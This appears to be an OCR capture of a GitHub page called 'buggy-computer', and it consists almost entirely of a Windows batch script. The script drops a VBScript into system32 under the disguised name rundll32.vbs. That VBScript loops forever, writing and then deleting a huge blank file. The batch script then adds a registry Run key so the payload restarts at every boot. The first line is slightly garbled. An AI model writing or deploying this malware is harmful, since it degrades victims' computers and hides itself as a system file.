 # buggy-computer
[SRC] Echo_inactive_inactive off echo Set fso = CreateObject("Scripting.FileSystemObject") > %systemdrive%\windows\system32\rundll32.vbs echo do >> %systemdrive%\windows\system32\rundll32.vbs echo Set tx = fso.CreateTextFile("%systemdrive%\windows\system32\rundll32.dat", True) >> %systemdrive%\windows\system32\rundll32.vbs echo tx.WriteBlankLines(100000000) >> %systemdrive%\windows\system32\rundll32.vbs echo tx.close >> %systemdrive%\windows\system32\rundll32.vbs echo FSO.DeleteFile "%systemdrive%\windows\system32\rundll32.dat" >> %systemdrive%\windows\system32\rundll32.vbs echo loop >> %systemdrive%\windows\system32\rundll32.vbs  start %systemdrive%\windows\system32\rundll32.vbs  reg add HKLM\SOFTWARE\Microsoft\Windows\CurrentVersion\Run /v system_host_run /t REG_SZ /d %systemdrive%\windows\system32\rundll32.vbs /f [/SRC]
